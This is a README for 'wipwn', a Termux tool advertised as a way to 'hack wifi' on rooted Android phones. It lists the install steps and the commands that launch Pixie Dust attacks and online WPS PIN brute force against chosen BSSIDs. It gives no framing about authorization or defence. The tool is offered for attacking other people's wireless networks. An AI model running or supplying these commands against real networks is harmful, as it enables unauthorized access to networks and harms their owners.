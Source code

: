 # wipwn
Hack wifi using termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/ShTasrif/wipwn
cd wipwn
chmod +x wipwn.py
```
#### Help : `sudo python wipwn.py --help`
#### Example : `sudo python wipwn.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
